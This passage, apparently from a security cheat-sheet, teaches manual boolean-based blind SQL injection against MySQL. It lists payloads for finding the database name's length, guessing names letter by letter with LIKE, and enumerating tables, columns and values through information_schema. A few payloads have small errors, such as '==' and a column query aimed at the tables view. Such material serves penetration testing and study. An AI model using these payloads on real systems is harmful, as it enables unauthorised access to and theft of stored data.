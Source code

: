 First, to avoid losing too much motivation, it may be better to test how many characters you are looking for. For instance, for the database name

```none
' AND LENGTH(database()) > 5 -- -
' AND LENGTH(database()) > 15 -- -
' AND LENGTH(database()) > 12 -- -
' AND LENGTH(database()) == 14 -- --
[...]
```

**Examples with LIKE**

Then, you can start. As everything is the same as for **Union-based SQLi**, and the process is the same for every text, I will only show an example with getting the database name.

```none
' AND database() LIKE '%' -- - // test, should always be true
' AND database() LIKE 'a%' -- - // starting
' AND database() LIKE 'b%' -- -
[...]
' AND database() LIKE 'm%' -- - // ok
' AND database() LIKE 'ma%' -- -
' AND database() LIKE 'mb%' -- -
[...]
' AND database() LIKE 'my_example' -- - // found 😢
```

Sometimes, there maybe more than one match. For instance, we could have a database starting with `my_`. In such case, to know if there are more databases like this, you have to exclude the one you found.

```none
' AND database()!='my_example' AND database() LIKE 'my_%' -- -
```

If the query returns true, you may have one more database to check up. Following here, I'm doing this

```none
-- fetch table name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name like '%') -- -
[...]
-- fetch column name
' 1 IN (SELECT 1 FROM information_schema.tables WHERE table_schema = 'database_name' AND table_name='table_name' AND column_name LIKE '%') -- -
[...]
-- fetch values
' 1 IN (SELECT 1 FROM database_name.table_name WHERE column_name LIKE '%') -- -
```
</div></div>

<hr class="sep-both">

## Manual Time-based SQLi
